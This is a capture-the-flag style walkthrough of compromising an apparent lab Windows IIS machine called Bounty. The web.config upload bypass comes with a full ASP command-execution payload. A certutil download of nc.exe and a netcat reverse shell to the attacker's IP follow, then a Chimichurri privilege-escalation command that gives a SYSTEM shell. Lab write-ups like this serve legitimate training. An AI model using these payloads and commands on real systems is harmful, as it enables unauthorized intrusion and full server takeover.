- Machine Name: Bounty
- OS type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
	PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 80/HTTP

only one port is open on this box so i’ll first fire the fox up and visit the website on http://10.10.10.93


it’s only simple page with image, nothing interesting in source code of the page, then i’ll start the dir/file fuzzing

first i’ll go for directory fuzzing using gobuster

```bash
gobuster dir -u http://10.10.10.93/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



ok great i found the interesting /uploadedfiles directory, i’ll first visit it



i see, it shows 403 forbidden, means no access, continue to enumeration i assume that this is asp site as the gobuster fund /aspnet_client and this above 403 page is for ASP sites

i’ll run the another scan to find any forms or page which allows users to upload files

```bash
gobuster dir -u http://10.10.10.93/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -x asp,aspx
```

-x option for specify file extensions



i found the `transfer.apsx` which seems interesting to me, i’ll visit that page



Hmm! simple file upload page, i’ll create a test.txt with some text contents and upload the file, and then try to access file from /uploadedfiles directory



It says Invalid file, moving forward i’ll try to upload the jpg file `mv test.txt test.jpg` and then try to upload again test.jpg



Uploaded!! then i try to access file from /uploadedfiles/test.jpg



so the file is not found!



i noticed that it removes the file after 2-3 minutes, so when i was taking screenshot from another page and pasting it to my note it was removed so i got 404 error, i tried again and this time i got hit

but it’s only allows to upload the image files, so i’ve then tried to upload the web.config and it uploaded successfully

i found this interesting medium article that shows how we can get RCE via web.config file

https://jaykiee.medium.com/rce-by-uploading-a-web-config-7390e140a45b i made some changes in code as whoami command was not showing the output so i’ve added the ping command and start tcpdump on kali to capture ICPM traffic

```bash
sudo tcpdump -i tun0 icmp -v
```

### Web.config

```bash
	<?xml version="1.0" encoding="UTF-8"?>
	<configuration>
	   <system.webServer>
	      <handlers accessPolicy="Read, Script, Write">
	         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
	      </handlers>
	      <security>
	         <requestFiltering>
	            <fileExtensions>
	               <remove fileExtension=".config" />
	            </fileExtensions>
	            <hiddenSegments>
	               <remove segment="web.config" />
	            </hiddenSegments>
	         </requestFiltering>
	      </security>
	   </system.webServer>
	</configuration>
	
	<% Response.write("-"&"->")
	Response.write("<pre>")
	Set wShell1 = CreateObject("WScript.Shell")
	Set cmd1 = wShell1.Exec("ping 10.10.14.17")
	output1 = cmd1.StdOut.Readall()
	set cmd1 = nothing: Set wShell1 = nothing
	Response.write(output1)
	Response.write("</pre><!-"&"-") %>
```

access web.config from /uploadedfiles/web.config i recieved the  ping requests on my kali machine



web browser also shows the output



i’ll make some changes in web.config to download the nc.exe and then execute it

start python http server where your nc.exe is exists using `python3 -m http.server 80` if you don’t know where to find nc.exe use `locate nc.exe` and we can find the location where nc.exe is present (/usr/share/windows-resources/binaries/nc.exe) copy it to current working directory and start python http server replace below command with ping command to download  the nc.exe

```bash
certutil -urlcache -f http://10.10.14.17/nc.exe \users\public\nc.exe
```



great! file now transffered to target machine, i’ll start the netcat listener on  port 443 using `rlwrap -r nc -nvlp 443`

now to execute the nc.exe to get shell i tried `\users\public\nc.exe 10.10.14.17 443 -e cmd` it shows the intenral server error

after many attempts i used below command to execute nc.exe to get shell  (start netcat listener on port 443 using `rlwrap -r nc -nvlp 443` 

```bash
cmd /c \users\public\nc.exe 10.10.14.17 443 -e cmd.exe
```

upload the web.config file again and access it from /uploadedfiles/web.config



## Post-Enum

i’ll start my post enumeration by running `sudo -l` command of windows systems!!, `whoami /priv` 



so i’ll upload the printspoofer and execute it to get SYSTEM Shell

start python http server on kali where printspoofer.exe exist and then use certutil to download printspoofer.exe from kali

tried to run the god potato, printspoofer but it’s not working

moving forward i’ll run `systeminfo` command to enumerate the system further



searching for exploit i found - https://github.com/Re4son/Chimichurri/blob/master/Chimichurri.exe, running exploit on the system

```bash
Chimichurri.exe 10.10.14.17 4444
```

and i got shell as SYSTEM bingo!!

